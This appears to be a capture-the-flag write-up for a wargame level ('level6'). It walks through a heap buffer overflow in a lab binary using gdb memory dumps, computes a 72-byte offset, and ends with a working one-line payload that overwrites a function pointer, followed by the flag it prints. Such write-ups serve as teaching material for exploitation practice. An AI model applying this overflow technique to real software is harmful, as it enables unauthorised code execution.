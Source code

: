 Okay this looks like a buffer heap overflow


Here is the address of function n (win) : `0x08048454` == `\x54\x84\x04\x08`

Here is the adress of function m (lose) : `0x8048468`


```
info proc map

0x804a000  0x806b000    0x21000        0x0 [heap]
```

tart of heap `0x804a000`

Let's inspect the heap

```console
(gdb) x/50x 0x804a000
0x804a000:	0x00000000	0x00000049	0x41414141	0x00000000
0x804a010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000011
0x804a050:	0x08048468	0x00000000	0x00000000	0x00020fa9
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c0:	0x00000000	0x00000000
```

`0x41414141` is our buffer ("AAAA")
`0x08048468`is the function ptr

18 x 4 = 72
I calculated the offset: 72  
address of m is located 72 bytes after our mallocated buffer  

Lets overwrite value the function ptr with address of function n

```console
(gdb) x/50x 0x804a000
0x804a000:	0x00000000	0x00000049	0x41414141	0x41414141
0x804a010:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a030:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a040:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a050:	0x08048454	0x00000000	0x00000000	0x00020fa9
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c0:	0x00000000	0x00000000
```

```
./level6 `(python -c 'print ("A" * 72 + "\x54\x84\x04\x08")')`
```


```console
level6@RainFall:~$ ./level6 `(python -c 'print ("A" * 72 + "\x54\x84\x04\x08" )')`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
